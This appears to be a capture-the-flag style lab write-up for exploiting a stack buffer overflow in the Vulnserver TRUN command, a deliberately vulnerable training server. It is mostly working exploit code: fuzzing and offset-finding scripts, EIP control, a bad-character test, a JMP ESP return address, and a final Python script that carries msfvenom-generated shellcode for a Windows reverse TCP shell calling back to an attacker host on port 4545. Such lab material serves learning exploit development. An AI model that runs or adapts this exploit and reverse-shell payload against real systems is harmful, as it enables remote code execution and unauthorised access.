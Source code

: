 ```yaml
---
title: "TRUN EIP Overwrite"
layout: home
permalink: /vulnserver/trun/
collection: vulnserver
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: POC
import socket
import os
import sys

crash="A"*5000

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, RDL"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-01.png)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500
```
Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Pattern
import socket
import os
import sys

crash="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3>

buffer="TRUN /.:/"
buffer+=crash

print "Sending evil TRUN request to VulnServer, RDL"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running the Vulnserver TRUN Pattern Python Script against the target system shows that the following pattern value is being stored in EIP.

<!--- <p align="center">
  <img src="/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png">
  </p>
--->

![trun-eip-overwrite-media-02 align="center"](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png)

EIP address is 386F4337. Use the Metasploit pattern offset utility to identify where the bytes are located in the 2500 byte buffer.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337
```

![trun-eip-overwrite-media-03](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-03.png)

An exact match was found at offset 2003 bytes.  Modify the buffer in the POC script to now send 2003 "A" characters, 4 "B" characters, and 1993 "C" characters; this should overwrite EIP with 4 "B" characters while retaining a 4000 byte buffer size.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Control
import socket
import os
import sys

crash="A"*2003 + "B"*4 + "C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, RDL"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
Running the updated script against the Vulnserver crashes the server and produces the following EIP output in OllyDbg.

![trun-eip-overwrite-media-04](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-04.png)

![trun-eip-overwrite-media-05](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-05.png)

The crash buffer has successfully overwritten EIP with four (4) "B" "\x42" characters; we now have control over EIP. The next step is to identify any bad characters the might not work for our shellcode.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Bad Characters
import socket
import os
import sys

badchar=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

crash="A"*2003 + "B"*4 + badchar  #"C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, RDL"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
![trun-eip-overwrite-media-06](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-06.png)

From looking at the output, we can tell that there are no bad characters other than \x00.

We now need to find a 'JMP ESP' instruction to jump to our potential shellcode.  Searching for a 'JMP ESP' instruction in the 'vulnserver.exe' instruction does not return any results. Vulnserver includes 'essfunc.dll'.

![trun-eip-overwrite-media-06](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-08.png)

Searching for a 'JMP ESP' instruction returns a 'JMP ESP' instruction at  0x625011AF. To find this, double click on the module in the Executable modules window to open the module in the CPU view, then right click in the disassembler pane and select Search for ->Command or hit Ctrl–F. In the Find command box that appears, type “JMP ESP” and hit Find.

![trun-eip-overwrite-media-06](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-09.png)

With a 'JMP ESP' instruction identified, replace our EIP filler of "B" characters with the address of the 'JMP ESP' instruction; ensure to use the Endian format. The next step is to generate a reverse shell using msfvenom and insert it into the Vulnserver TRUN Python Script and proceed it with a 15 character NOP sled.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.83.122 LPORT=4545 -b "\x00" -f c
```

```py
#!/usr/bin/python
import socket
import os
import sys

shellcode=("\xdd\xc6\xbd\x7f\x8f\x05\x6c\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x52\x31\x68\x17\x83\xc0\x04\x03\x17\x9c\xe7\x99\x1b\x4a\x65"
"\x61\xe3\x8b\x0a\xeb\x06\xba\x0a\x8f\x43\xed\xba\xdb\x01\x02"
"\x30\x89\xb1\x91\x34\x06\xb6\x12\xf2\x70\xf9\xa3\xaf\x41\x98"
"\x27\xb2\x95\x7a\x19\x7d\xe8\x7b\x5e\x60\x01\x29\x37\xee\xb4"
"\xdd\x3c\xba\x04\x56\x0e\x2a\x0d\x8b\xc7\x4d\x3c\x1a\x53\x14"
"\x9e\x9d\xb0\x2c\x97\x85\xd5\x09\x61\x3e\x2d\xe5\x70\x96\x7f"
"\x06\xde\xd7\x4f\xf5\x1e\x10\x77\xe6\x54\x68\x8b\x9b\x6e\xaf"
"\xf1\x47\xfa\x2b\x51\x03\x5c\x97\x63\xc0\x3b\x5c\x6f\xad\x48"
"\x3a\x6c\x30\x9c\x31\x88\xb9\x23\x95\x18\xf9\x07\x31\x40\x59"
"\x29\x60\x2c\x0c\x56\x72\x8f\xf1\xf2\xf9\x22\xe5\x8e\xa0\x2a"
"\xca\xa2\x5a\xab\x44\xb4\x29\x99\xcb\x6e\xa5\x91\x84\xa8\x32"
"\xd5\xbe\x0d\xac\x28\x41\x6e\xe5\xee\x15\x3e\x9d\xc7\x15\xd5"
"\x5d\xe7\xc3\x7a\x0d\x47\xbc\x3a\xfd\x27\x6c\xd3\x17\xa8\x53"
"\xc3\x18\x62\xfc\x6e\xe3\xe5\xc3\xc7\xb8\x75\xab\x15\x3e\x67"
"\xed\x93\xd8\xed\xfd\xf5\x73\x9a\x64\x5c\x0f\x3b\x68\x4a\x6a"
"\x7b\xe2\x79\x8b\x32\x03\xf7\x9f\xa3\xe3\x42\xfd\x62\xfb\x78"
"\x69\xe8\x6e\xe7\x69\x67\x93\xb0\x3e\x20\x65\xc9\xaa\xdc\xdc"
"\x63\xc8\x1c\xb8\x4c\x48\xfb\x79\x52\x51\x8e\xc6\x70\x41\x56"
"\xc6\x3c\x35\x06\x91\xea\xe3\xe0\x4b\x5d\x5d\xbb\x20\x37\x09"
"\x3a\x0b\x88\x4f\x43\x46\x7e\xaf\xf2\x3f\xc7\xd0\x3b\xa8\xcf"
"\xa9\x21\x48\x2f\x60\xe2\x78\x7a\x28\x43\x11\x23\xb9\xd1\x7c"
"\xd4\x14\x15\x79\x57\x9c\xe6\x7e\x47\xd5\xe3\x3b\xcf\x06\x9e"
"\x54\xba\x28\x0d\x54\xef")

crash="A"*2003 + "\xAF\x11\x50\x62" + "\x90"*15 + shellcode

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, RDL"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Launch Vulnserver.exe without attaching it to OllyDbg and launch the Vulnserver TRUN Python Script.

![trun-eip-overwrite-media-07](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-07.png)
